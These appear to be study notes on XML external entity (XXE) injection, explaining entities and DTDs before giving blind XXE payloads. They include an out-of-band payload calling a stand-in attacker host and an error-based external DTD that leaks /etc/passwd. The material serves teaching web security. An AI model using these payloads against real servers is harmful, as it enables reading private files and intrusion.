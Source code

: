 ## What is XML?
XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.
## What are XML entities?
XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities `&lt;` and `&gt;` represent the characters `<` and `>`. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.
## What is document type definition?
The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional `DOCTYPE` element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.
## What are XML custom entities?
XML allows custom entities to be defined within the DTD. For example:

```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

This definition means that any usage of the entity reference `&myentity;` within the XML document will be replaced with the defined value: "`my entity value`".
## What are XML external entities?
XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a URL from which the value of the entity should be loaded. For example:
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

The URL can use the `file://` protocol, and so external entities can be loaded from file. For example:
`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`
## What is blind XXE?
The application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible
There are two broad ways in which you can find and exploit blind XXE vulnerabilities:
- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.
For example, you would define an external entity as follows:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`
You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```
<!ENTITY % myparameterentity "my parameter entity value" >
```
And second, parameter entities are referenced using the percent character instead of the usual ampersand:
```
%myparameterentity;
```
This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.
### Lab: Blind XXE with out-of-band interaction via XML parameter entities
![[file-20250802174022773.png]]
## Exploiting blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; 
%error;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
- Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
- Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

Invoking the malicious external DTD will result in an error message like the following:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin ...
```